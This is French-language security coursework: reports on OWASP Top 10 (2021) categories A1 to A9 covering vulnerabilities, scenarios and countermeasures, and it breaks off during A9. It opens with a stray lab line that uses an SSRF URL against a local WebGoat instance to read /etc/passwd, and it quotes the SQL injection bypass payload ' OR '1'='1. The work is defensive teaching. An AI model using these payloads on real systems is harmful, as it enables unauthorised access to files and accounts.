http://localhost:8080/WebGoat/attack?url=file:///etc/passwd
```
→ SSRF réussie.
---Travaux individuels - OWASP Top 10 (2021) : Analyse de vulnérabilités et contre-mesures applicatives :
-
Contexte :
Dans le cadre du cours de Software Security, chaque étudiant a sélectionné trois catégories de vulnérabilités issues de l'OWASP Top 10 (2021).
-
Organisation du travail :
Pour chaque catégorie OWASP choisie, l'étudiant doit remettre un rapport distinct. Trois rapports sont donc attendus par étudiant.
-
Structure obligatoire de chaque rapport :
-
Présentation de la vulnérabilité : Définition, principe, erreurs de développement associées, composants concernés.
-
Scénario(s) d'exploitation : Scénarios réalistes, hypothèses techniques, étapes générales.
-
Causes racines : Analyse des causes techniques (conception, implémentation, contrôles absents).
-
-
Impacts de sécurité :
Confidentialité, intégrité, disponibilité.
-
Contre-mesures logicielles :
-
Niveau code
-
Niveau architecture applicative
-
Préventives et détectives
-
-
Limites et risques résiduels :
Une contre-mesure a des limites ? Certaines attaques restent possibles ?
La sécurité applicative repose sur des compromis.
-
Format attendu :
Un rapport PDF par catégorie.
-
Critères d'évaluation :
Compréhension (30%), analyse (25%), contre-mesures (35%), clarté (10%).
-
Consignes :
Travail original, copier-coller interdit.
A1 - Broken Access Control :
-
Présentation de la vulnérabilité :
Le Broken Access Control désigne une mauvaise implémentation des mécanismes de contrôle d'accès dans une application.
Il se produit lorsque les restrictions définissant quels utilisateurs peuvent accéder à quelles ressources ou fonctionnalités ne sont pas correctement appliquées côté serveur.
Cette vulnérabilité permet à un attaquant d'accéder à des données sensibles, de modifier des ressources ou d'exécuter des actions réservées à d'autres utilisateurs ou à des administrateurs.
Les erreurs de développement courantes incluent :
-
Absence de vérification des autorisations côté serveur.
-
Confiance excessive dans les contrôles côté client.
-
Mauvaise gestion des rôles et permissions.
-
Exposition d'identifiants directs d'objets (IDOR).
Les composants concernés sont principalement les API backend, les contrôleurs applicatifs et la couche d'accès aux données.
-
-
Scénario(s) d'exploitation :
Scénario : Accès non autorisé aux données d'un autre utilisateur :
Hypothèses techniques :
L'application permet l'accès aux profils utilisateurs via un paramètre userId transmis dans l'URL sans vérification d'autorisation.
Étapes générales :
-
Un utilisateur authentifié accède à son profil personnel.
-
L'URL affichée est /profile?userId=120.
-
L'utilisateur modifie manuellement la valeur du paramètre : /profile?userId=121.
-
Le serveur retourne les données de l'utilisateur 121 sans contrôle supplémentaire.
Ce scénario illustre une vulnérabilité de type IDOR (Insecure Direct Object Reference).
-
-
Causes racines :
Les causes racines du Broken Access Control sont principalement :
-
Une conception applicative qui ne considère pas la sécurité comme une exigence fondamentale.
-
L'absence de contrôles d'autorisation systématiques pour chaque requête.
-
Une logique de sécurité dispersée et non centralisée.
-
Un manque de tests de sécurité et de revues de code orientées autorisation.
Il s'agit généralement d'un problème de conception et d'architecture, plus que d'une simple erreur de syntaxe.
-
-
Impacts de sécurité :
-
Confidentialité : accès non autorisé à des données personnelles ou sensibles.
-
Intégrité : modification ou suppression de données sans permission.
-
Disponibilité : possibilité de bloquer ou supprimer des ressources critiques.
L'impact global est considéré comme élevé, car l'exploitation est souvent simple et les conséquences sévères.
-
-
Contre-mesures logicielles :
-
Niveau code :
-
Vérifier les autorisations pour chaque requête côté serveur.
-
Associer explicitement les ressources à l'identité de l'utilisateur authentifié.
-
Ne jamais faire confiance aux paramètres fournis par le client.
-
Utiliser des frameworks ou annotations de contrôle d'accès.
-
-
Niveau architecture applicative :
-
Implémenter un modèle RBAC (Role-Based Access Control).
-
Centraliser la gestion des permissions.
-
Séparer clairement les fonctions utilisateur et administrateur.
-
Appliquer le principe du moindre privilège.
-
-
Mesures préventives et détectives :
-
Préventives : contrôles d'accès stricts, tests automatisés.
-
Détectives : journalisation des accès, alertes en cas de comportement anormal.
-
-
-
Limites et risques résiduels :
Malgré la mise en place de contre-mesures efficaces :
-
Des erreurs de configuration peuvent subsister.
-
Les évolutions fonctionnelles peuvent introduire de nouvelles failles.
-
Les erreurs humaines restent possibles.
La sécurité applicative repose donc sur un équilibre entre sécurité, complexité et maintenabilité.
-
-
Conclusion :
Le Broken Access Control est l'une des vulnérabilités les plus critiques et les plus répandues dans les applications web modernes.
Une approche rigoureuse intégrant la sécurité dès la conception, combinée à des contrôles techniques solides, est indispensable pour réduire les risques.
A2 - Cryptographic Failures :
-
Présentation de la vulnérabilité :
Les Cryptographic Failures concernent une mauvaise utilisation ou une absence de mécanismes cryptographiques destinés à protéger les données sensibles.
Elles apparaissent lorsque des informations comme les mots de passe, données personnelles ou financières ne sont pas correctement chiffrées.
Cette vulnérabilité peut entraîner des fuites de données importantes.
Contrairement à une idée répandue, le problème ne réside pas uniquement dans l'algorithme utilisé, mais également dans :
-
la gestion des clés,
-
le choix des protocoles,
-
et la mise en oeuvre correcte des mécanismes de chiffrement.
Les erreurs de développement courantes incluent :
-
Absence de chiffrement des données sensibles (au repos ou en transit).
-
Utilisation d'algorithmes obsolètes ou faibles (MD5, SHA-1, DES).
-
Stockage de mots de passe en clair ou avec un hachage non sécurisé.
-
Mauvaise gestion, rotation ou protection des clés cryptographiques.
-
Désactivation ou mauvaise configuration de TLS.
Les composants concernés sont principalement :
-
la couche réseau (communications client-serveur),
-
les bases de données,
-
les mécanismes d'authentification et de gestion des secrets.
-
-
Scénario(s) d'exploitation :
Scénario : Interception de données sensibles en transit :
Hypothèses techniques :
-
L'application utilise le protocole HTTP au lieu de HTTPS.
-
Les identifiants utilisateur sont transmis lors de l'authentification sans chiffrement.
-
L'attaquant se trouve sur le même réseau que la victime (Wi-Fi public, réseau d'entreprise compromis).
Étapes générales :
-
Un utilisateur se connecte à l'application via un réseau non sécurisé.
-
Les identifiants (login/mot de passe) sont envoyés en clair au serveur.
-
L'attaquant intercepte le trafic réseau à l'aide d'un outil de type sniffer.
-
Les informations sensibles sont récupérées et réutilisées pour accéder au compte de la victime.
Ce scénario illustre une défaillance cryptographique liée à l'absence de chiffrement des communications, entraînant une compromission directe des comptes utilisateurs.
-
-
Causes racines :
Les causes racines de Cryptographic Failures sont généralement :
-
Un manque de connaissances en cryptographie appliquée chez les développeurs.
-
Une mauvaise configuration des protocoles de sécurité (TLS mal configuré, certificats expirés).
-
L'absence de politiques claires concernant la gestion des clés et des secrets.
-
Une confiance excessive dans des implémentations par défaut sans validation.
-
L'absence d'audits de sécurité et de tests cryptographiques.
Ces vulnérabilités résultent souvent de choix de conception inadéquats, plutôt que d'erreurs ponctuelles de code.
-
-
Impacts de sécurité :
-
Confidentialité : fuite de données sensibles (mots de passe, données sensibles).
-
Intégrité : possibilité de modification des données si les mécanismes de protection sont insuffisants.
-
Disponibilité : impact indirect possible (exploitation conduisant à une compromission globale du système).
L'impact global est considéré comme élevé, notamment en raison des conséquences juridiques, financières et réputationnelles associées aux fuites de données.
-
-
Contre-mesures logicielles :
Niveau code :
-
Utiliser des algorithmes cryptographiques robustes et reconnus (AES-256, SHA-256, bcrypt).
-
Ne jamais stocker les mots de passe en clair; utiliser un hachage avec salage.
-
Éviter toute implémentation cryptographique "maison".
Niveau architecture applicative :
-
Forcer l'utilisation de HTTPS/TLS pour toutes les communications.
-
Mettre en place une gestion centralisée et sécurisée des clés (HSM, vault).
-
Séparer les secrets du code source (variables d'environnement, services dédiés).
Mesures préventives et détectives :
-
Préventives : politiques de chiffrement, revues de code orientées sécurité.
-
Détectives : audits cryptographiques, scans de vulnérabilités, surveillance des certificats.
-
-
Limites et risques résiduels :
Malgré l'implémentation de contre-mesures efficaces :
-
Une clé compromise rend le chiffrement inefficace.
-
Une mauvaise configuration peut annuler les bénéfices de la cryptographie.
-
Les erreurs humaines et les évolutions applicatives restent des sources de risques.
La cryptographie ne garantit pas une sécurité absolue, mais réduit significativement les risques lorsqu'elle est correctement mise en oeuvre.
-
-
Conclusion :
Les Cryptographic Failures représentent une vulnérabilité critique, souvent sous-estimée, mais aux conséquences potentiellement graves.
Une approche rigoureuse combinant bonnes pratiques cryptographiques, choix technologiques adaptés et contrôles réguliers est indispensable pour assurer la protection des données sensibles.
A3 - Injection :
-
Présentation de la vulnérabilité :
Les vulnérabilités d'Injection surviennent lorsque des données fournies par un utilisateur non fiable sont interprétées par une application comme des commandes ou requêtes par un interpréteur (base de données, système d'exploitation, moteur LDAP, etc.).
Le cas le plus connu est l'injection SQL, mais cette catégorie inclut également les injections NoSQL, les injections LDAP, les injections de commandes système et certaines formes d'injection de code.
Cette vulnérabilité apparaît lorsque l'application ne valide pas correctement les entrées utilisateur et construit dynamiquement des requêtes ou commandes en y intégrant directement ces données.
Les composants concernés sont principalement :
-
la couche d'accès aux données,
-
les API backend,
-
les mécanismes d'authentification et de recherche.
-
-
Scénario(s) d'exploitation :
Scénario : Injection SQL lors de l'authentification :
Hypothèses techniques :
-
L'application utilise une base de données relationnelle.
-
Les requêtes SQL sont construites dynamiquement par concaténation de chaînes.
-
Aucune validation ou protection spécifique n'est appliquée aux entrées utilisateur.
Étapes générales :
-
Un utilisateur accède à un formulaire de connexion.
-
Il saisit une charge malveillante dans le champ identifiant (par exemple : ' OR '1'='1).
-
L'application insère directement cette entrée dans la requête SQL.
-
La requête modifiée devient toujours vraie.
-
L'attaquant est authentifié sans connaître de mot de passe valide.
Ce scénario permet à un attaquant d'accéder à l'application de manière non autorisée et potentiellement d'exécuter des actions critiques.
-
-
Causes racines :
Les causes racines des vulnérabilités d'injection sont principalement :
-
L'absence ou l'insuffisance de validation et de filtrage des entrées utilisateur.
-
La construction dynamique de requêtes SQL ou commandes système.
-
L'utilisation directe des données utilisateur dans des interpréteurs.
-
Une méconnaissance des mécanismes de protection fournis par les frameworks.
-
L'absence de tests de sécurité ciblant les injections.
Il s'agit généralement d'un problème de conception et d'implémentation, et non d'une simple erreur ponctuelle.
-
-
Impacts de sécurité :
-
Confidentialité : accès non autorisé à des données sensibles stockées en base de données.
-
Intégrité : modification ou suppression de données.
-
Disponibilité : suppression de tables, corruption de la base de données ou déni de service.
L'impact global est considéré comme très élevé, car les vulnérabilités d'injection peuvent mener à une compromission complète du système.
-
-
Contre-mesures logicielles :
Niveau code :
-
Utiliser des requêtes préparées ou des ORM sécurisés.
-
Ne jamais concaténer directement les entrées utilisateur dans une requête.
-
Valider et filtrer systématiquement les données en entrée.
-
Échapper correctement les caractères spéciaux lorsque nécessaire.
Niveau architecture applicative :
-
Séparer clairement la logique métier de l'accès aux données.
-
Appliquer le principe du moindre privilège pour les comptes de base de données.
-
Restreindre les droits des utilisateurs techniques (pas de droits administrateur).
Mesures préventives et détectives :
-
Préventives : revues de code, tests automatisés contre les injections.
-
Détectives : journalisation des erreurs SQL, alertes en cas de requêtes anormales.
-
-
Limites et risques résiduels :
Malgré la mise en place de contre-mesures efficaces :
-
Des erreurs de configuration peuvent subsister.
-
Des injections peuvent apparaître dans des composants tiers vulnérables.
-
Des évolutions applicatives peuvent introduire de nouveaux points d'entrée.
La sécurité contre les injections repose sur une discipline continue de développement sécurisé.
-
-
Conclusion :
Les vulnérabilités d'injection figurent parmi les menaces les plus anciennes mais restent toujours très présentes dans les applications modernes.
Une approche combinant bonnes pratiques de développement, protections techniques robustes et contrôles réguliers est indispensable pour limiter les risques et garantir la sécurité des applications.
A4 - Insecure Design :
-
Présentation de la vulnérabilité :
L'Insecure Design désigne des failles de sécurité résultant de choix de conception applicative insuffisants ou inadaptés, indépendamment de la qualité de l'implémentation technique.
Contrairement aux vulnérabilités liées à des erreurs de code, l'Insecure Design apparaît lorsque la sécurité n'est pas intégrée dès la phase de conception de l'application. Même une implémentation correcte peut alors rester vulnérable.
Cette catégorie concerne notamment :
-
l'absence de modélisation des menaces,
-
des règles métier non sécurisées,
-
des mécanismes de contrôle incomplets ou inexistants
-
une mauvaise gestion des flux utilisateurs et des cas d'abus.
Les erreurs de conception courantes incluent :
-
Absence de contrôles de sécurité sur des fonctionnalités sensibles.
-
Hypothèses de confiance irréalistes sur le comportement des utilisateurs.
-
Manque de séparation entre les niveaux de privilèges.
-
Absence de limites (quotas, délais, seuils).
Les composants concernés sont principalement :
-
la logique métier,
-
les flux applicatifs,
-
l'architecture fonctionnelle globale.
-
-
Scénario(s) d'exploitation :
Scénario : Contournement des règles métier lors d'un processus critique :
Hypothèses techniques :
-
L'application permet de modifier une commande après validation.
-
Aucune règle métier ne limite le nombre ou le type de modifications possibles.
-
L'utilisateur est authentifié et légitime.
Étapes générales :
-
Un utilisateur valide une commande avec un prix initial.
-
Après validation, il modifie manuellement les paramètres de la requête.
-
L'application accepte la modification sans vérification métier.
-
Le prix final est réduit de manière frauduleuse.
-
La commande est traitée avec des données incohérentes.
Ce scénario illustre une faille de conception, où les règles métier n'ont pas été pensées pour résister à des usages abusifs.
-
-
Causes racines :
Les causes racines de l'Insecure Design sont généralement :
-
Une absence de prise en compte de la sécurité dès la phase de conception.
-
L'absence de modélisation des menaces (threat modeling).
-
Une focalisation excessive sur les fonctionnalités au détriment des abus possibles.
-
Un manque de collaboration entre équipes métier et sécurité.
-
L'absence de validation des règles métier côté serveur.
Il s'agit principalement d'un problème organisationnel et conceptuel, plus que technique.
-
-
Impacts de sécurité :
-
Confidentialité : exposition indirecte de données via des flux mal conçus.
-
Intégrité : altération des données ou contournement des règles métier.
-
Disponibilité : abus fonctionnels pouvant entraîner un déni de service.
L'impact est considéré comme élevé, car ces vulnérabilités sont souvent difficiles à détecter et peuvent être exploitées de manière légitime.
-
-
Contre-mesures logicielles :
Niveau code :
-
Implémenter des contrôles stricts des règles métier côté serveur.
-
Vérifier systématiquement la cohérence des états applicatifs.
-
Ne pas supposer que l'utilisateur suit le chemin prévu.
Niveau architecture applicative :
-
Intégrer la sécurité dès la phase de conception (Security by Design).
-
Réaliser une modélisation des menaces pour chaque fonctionnalité critique.
-
Séparer clairement les responsabilités et les niveaux de privilèges.
-
Introduire des mécanismes de limitation (rate limiting, quotas).
Mesures préventives et détectives :
-
Préventives : revues de conception, validation des cas d'abus.
-
Détectives : journalisation des actions métiers sensibles, alertes sur comportements anormaux.
-
-
Limites et risques résiduels :
Malgré des contre-mesures adaptées :
-
Les exigences métier évoluent rapidement.
-
De nouveaux scénarios d'abus peuvent apparaître.
-
Les erreurs humaines lors de la conception restent possibles.
La sécurité par la conception implique donc un processus continu d'amélioration et d'adaptation.
-
-
Conclusion :
L'Insecure Design représente une vulnérabilité critique car elle ne peut pas être corrigée uniquement par du code.
Une approche intégrant la sécurité dès la conception, combinée à une analyse rigoureuse des usages et abus possibles, est essentielle pour construire des applications robustes et résilientes.
A5 - Security Misconfiguration :
-
Présentation de la vulnérabilité :
La vulnérabilité Security Misconfiguration désigne des failles de sécurité résultant d'une configuration incorrecte, incomplète ou par défaut des composants d'une application.
Elle peut concerner :
-
le serveur web,
-
l'application elle-même,
-
le framework utilisé,
-
les bases de données,
-
les services cloud ou conteneurs.
Cette catégorie apparaît lorsque :
-
des fonctionnalités inutiles sont laissées actives,
-
des paramètres de sécurité par défaut ne sont pas modifiés,
-
des messages d'erreur trop détaillés sont exposés,
-
des permissions excessives sont accordées.
Les erreurs de configuration courantes incluent :
-
Activation du mode debug en production.
-
Utilisation de comptes ou mots de passe par défaut.
-
Absence d'en-têtes de sécurité HTTP.
-
Mauvaise configuration des permissions ou des accès.
-
Exposition de fichiers sensibles (backup, logs, fichiers de configuration).
Les composants concernés sont principalement :
-
les serveurs web et applicatifs,
-
les frameworks,
-
les systèmes de déploiement et d'infrastructure.
-
-
Scénario(s) d'exploitation :
Scénario : Exploitation d'un mode debug actif en production :
Hypothèses techniques :
-
L'application est déployée en environnement de production.
-
Le mode debug du framework est activé.
-
Les messages d'erreur sont affichés côté client.
Étapes générales :
-
Un utilisateur provoque volontairement une erreur applicative.
-
L'application affiche une page d'erreur détaillée.
-
Les informations exposées incluent :
-
la structure interne de l'application,
-
des chemins de fichiers,
-
parfois des secrets ou identifiants.
-
-
L'attaquant utilise ces informations pour préparer une attaque ciblée.
-
Une vulnérabilité plus critique est ensuite exploitée.
Ce scénario illustre une exposition d'informations sensibles due à une mauvaise configuration, facilitant des attaques ultérieures.
-
-
Causes racines :
Les causes racines de la Security Misconfiguration sont généralement :
-
Une absence de processus de configuration sécurisé pour les environnements.
-
L'utilisation de configurations par défaut non durcies.
-
Un manque de séparation entre environnements (développement, test, production).
-
Une méconnaissance des paramètres de sécurité des frameworks et serveurs.
-
L'absence de procédures de durcissement (hardening).
Il s'agit souvent d'un problème opérationnel et organisationnel, plus que d'un défaut de code.
-
-
Impacts de sécurité :
-
Confidentialité : divulgation d'informations sensibles ou internes.
-
Intégrité : modification non autorisée de paramètres ou de données.
-
Disponibilité : déni de service dû à une mauvaise configuration.
L'impact global est considéré comme élevé, car ces vulnérabilités sont fréquentes, faciles à exploiter et souvent combinées à d'autres failles.
-
-
Contre-mesures logicielles :
Niveau code :
-
Désactiver toute fonctionnalité de debug en production.
-
Ne jamais exposer d'informations sensibles dans les messages d'erreur.
-
Vérifier systématiquement les paramètres de sécurité fournis par les frameworks.
Niveau architecture applicative :
-
Mettre en place des configurations distinctes par environnement.
-
Appliquer des procédures de durcissement des serveurs et services.
-
Restreindre les permissions aux stricts besoins (principe du moindre privilège).
-
Automatiser les configurations via des outils d'infrastructure as code.
Mesures préventives et détectives :
-
Préventives : checklists de configuration sécurisée, audits réguliers.
-
Détectives : scans de configuration, surveillance des changements, alertes.
-
-
Limites et risques résiduels :
Malgré des contre-mesures appropriées :
-
Les configurations évoluent avec le temps.
-
Des erreurs humaines peuvent survenir lors des déploiements.
-
De nouveaux composants peuvent introduire des paramètres non sécurisés.
La gestion des configurations doit donc être continue et rigoureuse.
-
-
Conclusion :
La Security Misconfiguration est l'une des vulnérabilités les plus courantes dans les applications modernes.
Une approche combinant bonnes pratiques de configuration, automatisation, contrôles réguliers et sensibilisation des équipes est essentielle pour réduire durablement les risques.
A6 - Vulnerable and Outdated Components :
-
Présentation de la vulnérabilité :
La catégorie Vulnerable and Outdated Components concerne l'utilisation de bibliothèques, frameworks, composants ou dépendances tierces qui présentent des vulnérabilités connues ou qui ne sont plus maintenus.
Les applications modernes reposent largement sur des composants externes (open source ou propriétaires). Lorsqu'un de ces composants contient une faille de sécurité, toute application qui l'intègre devient potentiellement vulnérable, même si son propre code est correct.
Cette vulnérabilité apparaît notamment lorsque :
-
les dépendances ne sont pas mises à jour,
-
les versions utilisées ne sont plus supportées,
-
les correctifs de sécurité ne sont pas appliqués,
-
l'origine ou l'intégrité des composants n'est pas vérifiée.
Les erreurs courantes incluent :
-
Utilisation de versions obsolètes de frameworks.
-
Absence d'inventaire des dépendances.
-
Ignorance des alertes de vulnérabilités connues (CVE).
-
Téléchargement de composants depuis des sources non fiables.
Les composants concernés sont principalement :
-
les bibliothèques tierces,
-
les frameworks applicatifs,
-
les plugins,
-
les systèmes de gestion de dépendances.
-
-
Scénario(s) d'exploitation :
Scénario : Exploitation d'une bibliothèque vulnérable :
Hypothèses techniques :
-
L'application utilise une bibliothèque tierce contenant une vulnérabilité connue.
-
Cette vulnérabilité est documentée publiquement (CVE).
-
Aucun correctif n'a été appliqué.
Étapes générales :
-
L'attaquant identifie les composants utilisés par l'application (bannières, fichiers publics, signatures).
-
Il repère une version vulnérable d'une bibliothèque.
-
Il consulte la documentation publique de la faille.
-
Il exploite la vulnérabilité pour exécuter une action malveillante.
-
L'attaque compromet partiellement ou totalement l'application.
Ce scénario illustre une vulnérabilité héritée d'un composant tiers, indépendante du code applicatif.
-
-
Causes racines :
Les causes racines de Vulnerable and Outdated Components sont généralement :
-
Une absence de politique de gestion des dépendances.
-
Un manque de veille sur les vulnérabilités connues.
-
Une dépendance excessive à des composants non maintenus.
-
Une méconnaissance des composants réellement utilisés.
-
Une difficulté à mettre à jour sans impacter l'application.
Il s'agit principalement d'un problème de gouvernance et de maintenance, plus que de développement pur.
-
-
Impacts de sécurité :
-
Confidentialité : fuite de données via l'exploitation d'un composant vulnérable.
-
Intégrité : modification du comportement applicatif.
-
Disponibilité : déni de service ou crash de l'application.
L'impact global est considéré comme élevé, car l'exploitation repose sur des failles publiquement connues et facilement exploitables.
-
-
Contre-mesures logicielles :
Niveau code :
-
Mettre à jour régulièrement les dépendances.
-
Supprimer les bibliothèques inutilisées.
-
Vérifier les changements de sécurité lors des mises à jour.
Niveau architecture applicative :
-
Maintenir un inventaire clair des composants utilisés.
-
Privilégier des composants maintenus et reconnus.
-
Isoler les composants critiques lorsque possible.
-
Mettre en place des mécanismes de validation d'intégrité.
Mesures préventives et détectives :
-
Préventives : gestion des versions, politiques de mises à jour.
-
Détectives : scanners de dépendances, surveillance des CVE, audits réguliers.
-
-
Limites et risques résiduels :
Malgré des pratiques de gestion rigoureuses :
-
Les correctifs peuvent introduire des régressions.
-
Certaines dépendances critiques sont difficiles à remplacer.
-
Des vulnérabilités zero-day peuvent apparaître.
La gestion des composants doit donc être continue et intégrée au cycle de vie applicatif.
-
-
Conclusion :
La vulnérabilité Vulnerable and Outdated Components rappelle que la sécurité d'une application dépend aussi de son écosystème logiciel.
Une stratégie combinant veille, mise à jour, inventaire et automatisation est indispensable pour limiter les risques liés aux dépendances tierces.
A7 - Identification and Authentication Failures :
-
Présentation de la vulnérabilité :
La vulnérabilité Identification and Authentication Failures regroupe les failles liées à une mauvaise gestion de l'identification des utilisateurs et des mécanismes d'authentification.
Elle apparaît lorsque l'application ne permet pas de garantir correctement :
-
l'identité de l'utilisateur,
-
la confidentialité des identifiants,
-
la robustesse des mécanismes de connexion et de gestion de session.
Cette catégorie inclut notamment :
-
des politiques de mots de passe faibles,
-
une gestion incorrecte des sessions,
-
des mécanismes d'authentification contournables,
-
une absence de protection contre les attaques par force brute.
Les erreurs de développement courantes incluent :
-
Mots de passe faibles ou non protégés.
-
Absence de limitation des tentatives de connexion.
-
Identifiants transmis ou stockés de manière non sécurisée.
-
Tokens de session prévisibles ou non renouvelés.
-
Absence d'authentification multi-facteurs.
Les composants concernés sont principalement :
-
les systèmes d'authentification,
-
la gestion des sessions,
-
les mécanismes de stockage des identifiants.
-
-
Scénario(s) d'exploitation :
Scénario : Attaque par force brute sur un compte utilisateur :
Hypothèses techniques :
-
L'application ne limite pas le nombre de tentatives de connexion.
-
Les mots de passe utilisateurs sont faibles.
-
Aucun mécanisme de verrouillage ou d'alerte n'est en place.
Étapes générales :
-
L'attaquant identifie une page de connexion accessible publiquement.
-
Il lance une attaque par force brute ou par dictionnaire.
-
L'application accepte un grand nombre de tentatives.
-
L'attaquant devine le mot de passe valide.
-
Le compte utilisateur est compromis.
Ce scénario illustre une défaillance des mécanismes d'authentification, conduisant à un accès non autorisé.
-
-
Causes racines :
Les causes racines d'Identification and Authentication Failures sont généralement :
-
Une mauvaise conception des mécanismes d'authentification.
-
L'absence de politiques de sécurité claires sur les identifiants.
-
Une gestion inadéquate des sessions.
-
Une méconnaissance des attaques courantes (brute force, credential stuffing).
-
Un manque de tests de sécurité spécifiques à l'authentification.
Il s'agit à la fois d'un problème de conception, d'implémentation et de gouvernance.
-
-
Impacts de sécurité :
-
Confidentialité : accès non autorisé à des comptes utilisateurs.
-
Intégrité : modification de données ou d'actions sous l'identité d'un autre utilisateur.
-
Disponibilité : verrouillage de comptes ou abus des ressources.
L'impact global est considéré comme très élevé, car ces vulnérabilités mènent souvent à une compromission complète des comptes.
-
-
Contre-mesures logicielles :
Niveau code :
-
Appliquer des politiques de mots de passe robustes.
-
Mettre en place une limitation des tentatives de connexion.
-
Hacher les mots de passe avec des algorithmes adaptés (bcrypt, Argon2).
-
Générer des tokens de session aléatoires et non prédictibles.
-
Renouveler les identifiants de session après authentification.
Niveau architecture applicative :
-
Implémenter une authentification multi-facteurs (MFA).
-
Centraliser la gestion de l'authentification.
-
Séparer les mécanismes d'authentification et de gestion de session.
-
Forcer l'utilisation de HTTPS pour l'authentification.
Mesures préventives et détectives :
-
Préventives : politiques de sécurité, MFA, gestion des sessions.
-
Détectives : journalisation des tentatives de connexion, alertes en cas d'anomalie.
-
-
Limites et risques résiduels :
Malgré la mise en place de contre-mesures efficaces :
-
Les utilisateurs peuvent choisir des mots de passe faibles.
-
Les attaques par ingénierie sociale restent possibles.
-
Les identifiants peuvent être compromis via des services tiers.
La sécurité de l'authentification repose donc sur une combinaison de contrôles techniques et humains.
-
-
Conclusion :
Les Identification and Authentification Failures constituent une menace majeure pour les applications modernes.
Une approche combinant mécanismes d'authentification robustes, bonnes pratiques de gestion des sessions et sensibilisation des utilisateurs est indispensable pour réduire les risques.
A8 - Software and Data Integrity Failures :
-
Présentation de la vulnérabilité :
La vulnérabilité Software and Data Integrity Failures concerne les failles liées à l'absence de garanties d'intégrité sur les logiciels, les mises à jour et les données critiques.
Elle survient lorsque l'application :
-
ne vérifie pas l'intégrité des fichiers ou des données critiques,
-
ne sécurise pas les mises à jour logicielles contre la modification malveillante,
-
n'assure pas la protection contre la corruption ou l'altération des données,
-
utilise des composants tiers sans vérifier leur intégrité ou leur provenance.
Cette vulnérabilité peut conduire à des situations où un attaquant :
-
remplace ou modifie des fichiers applicatifs ou des bibliothèques,
-
corrompte des données critiques dans la base de données ou les fichiers,
-
installe des mises à jour compromises pouvant introduire des portes dérobées.
-
-
Scénario(s) d'exploitation :
Scénario : Compromission par mise à jour malveillante :
Hypothèses techniques :
-
L'application accepte automatiquement les mises à jour sans vérification.
-
Aucun mécanisme de signature numérique ou de hachage n'est utilisé.
-
Les composants tiers ne sont pas validés.
Étapes générales :
-
L'attaquant modifie une mise à jour légitime ou introduit un composant malveillant.
-
L'application ou le serveur télécharge et installe la mise à jour compromise.
-
Le logiciel exécute du code malveillant ou corrompt des données critiques.
-
L'attaquant peut obtenir un contrôle partiel ou total du système ou accéder à des informations sensibles.
-
-
Causes racines :
Les causes racines sont généralement :
-
Absence de mécanismes de contrôle d'intégrité (hash, signature numérique).
-
Mauvaise gestion des mises à jour logicielles.
-
Dépendances sur des composants tiers non vérifiés.
-
Manque de procédures de vérification et de tests d'intégrité.
Il s'agit d'un problème de conception, d'implémentation et de gouvernance.
-
-
Impacts de sécurité :
-
Confidentialité : exposition indirecte si les données corrompues permettent des fuites.
-
Intégrité : modification ou falsification des données et du logiciel.
-
Disponibilité : dysfonctionnements ou blocage des services causés par des composants compromis.
L'impact global est considéré comme élevé à critique, selon la sensibilité des données ou des logiciels compromis.
-
-
Contre-mesures logicielles :
Niveau code :
-
Vérifier systématiquement l'intégrité des fichiers critiques et des données.
-
Implémenter des signatures numériques et hachages pour toutes les mises à jour.
-
Valider et contrôler toutes les entrées et composants tiers.
Niveau architecture applicative :
-
Séparer les composants critiques dans des environnements sécurisés.
-
Utiliser des canaux sécurisés et authentifiés pour les mises à jour logicielles.
-
Mettre en place des journaux d'audit pour détecter toute altération des fichiers ou des données.
Mesures préventives et détectives :
-
Préventives : vérification des mises à jour, contrôle d'intégrité, surveillance des composants tiers.
-
Détectives : alertes sur fichiers ou données modifiés, monitoring des activités suspectes.
-
-
Limites et risques résiduels :
-
Les composants externes peuvent être compromis avant leur vérification.
-
Des erreurs humaines dans la gestion des clés ou certificats peuvent introduire des failles.
-
Les attaques avancées exploitant des vulnérabilités inconnues restent possibles.
La sécurité et l'intégrité reposent donc sur une combinaison de contrôles techniques, de processus et de sensibilisation humaine.
-
-
Conclusion :
Les Software and Data Integrity Failures représentent une menace sérieuse pour la confiance dans les logiciels et les données critiques. Une approche combinant contrôles techniques robustes, vérification des composants et procédures de gouvernance est essentielle pour réduire les risques.
A9 - Security Logging and Monitoring Failures :
-
Présentation de la vulnérabilité :
La vulnérabilité Security Logging and Monitoring Failures concerne les failles liées à l'absence ou l'insuffisance de journalisation, de surveillance et d'alertes de sécurité.
Elle survient lorsque l'application ne permet pas de :
-
enregistrer correctement les événements de sécurité importants,
-
détecter les comportements anormaux ou malveillants,
-
alerter rapidement les équipes en cas d'incident,
-
analyser les attaques ou incidents après leur survenue.
Cette catégorie inclut notamment :
-
une journalisation incomplète ou inexistante,
-
des logs non protégés ou non centralisés,
-
l'absence de surveillance en temps réel,
-
l'absence de processus de réponse aux incidents.
-
-
Scénario(s) d'exploitation :
Scénario : Attaque prolongée non détectée :
Hypothèses techniques :
-
Les tentatives de connexion échouées ne sont pas journalisées.
-
Aucun système de surveillance ou d'alerte n'est en place.
-
Les logs ne sont jamais analysés.
Étapes générales :
-
L'attaquant exploite une vulnérabilité de l'application.
-
Il effectue plusieurs tentatives d'accès non autorisé.
-
Les actions ne sont ni enregistrées ni détectées.
-
L'attaquant maintient un accès prolongé au système.
-
L'incident est découvert tardivement, voire jamais.
Ce scénario illustre une défaillance de détection et de réaction, augmentant fortement l'impact des attaques.
-
-
Causes racines :
Les causes racines sont généralement :
-
absence de stratégie de journalisation de sécurité,
-
manque de sensibilisation aux besoins de surveillance,
-
mauvaise configuration des logs,
-
absence de processus de gestion des incidents.
Il s'agit principalement d'un problème organisationnel et de gouvernance, en plus des aspects techniques.
-
-
Impacts de sécurité :
-
Confidentialité : accès non autorisé non détecté aux données sensibles.
-
Intégrité : modifications malveillantes non identifiées.
-
Disponibilité : attaques persistantes pouvant dégrader ou interrompre les services.
L'impact global est considéré comme élevé, car l'absence de détection amplifie les conséquences des autres vulnérabilités.
-
-
Contre-mesures logicielles :
Niveau code :
-
Journaliser les événements de sécurité critiques (authentification, erreurs, accès sensibles).
-
S'assurer que les logs contiennent des informations suffisantes sans exposer de données sensibles.
Niveau architecture applicative :
-
Centraliser les journaux dans un système sécurisé.
-
Mettre en place une surveillance en temps réel et des alertes automatisées.
-
Définir des procédures de réponse aux incidents.
Mesures préventives et détectives :
-
Préventives : politiques de journalisation, contrôle d'accès aux logs.
-
Détectives : analyse des logs, alertes, tableaux de bord de sécurité.
-
-
Limites et risques résiduels :
-
Un volume excessif de logs peut masquer des événements importants.
-
